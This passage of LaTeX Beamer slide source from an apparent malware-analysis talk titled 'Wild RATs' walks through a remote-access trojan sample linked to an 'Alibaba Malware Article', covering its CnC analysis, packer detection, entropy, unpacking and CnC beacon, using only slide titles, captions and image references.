      
\includegraphics[width=9cm,keepaspectratio]{alibaba_article_0}
      \caption{Alibaba Malware Article}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Article CnC Analysis - 6900bbd0b505126c4461ae21bb4cf85d}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{alibaba_article_1}
      \caption{Alibaba Malware Article Entire CnC Analysis}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Article CnC Analysis - 6900bbd0b505126c4461ae21bb4cf85d}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{thats_all_you_got}
      \caption{Seriously?}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - What are we dealing with?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{alibaba_die_main}
      \caption{Alibaba Malware Detect It Easy}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - Entropy}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{alibaba_die_entropy}
      \caption{Alibaba Malware Entropy}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - Debugging and Capturing}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{alibaba_cnc}
      \caption{Afer Unpacking and Breaking on Send}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - The CnC Beacon}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{alibaba_http}
      \caption{The CnC Beacon}
    \end{figure}
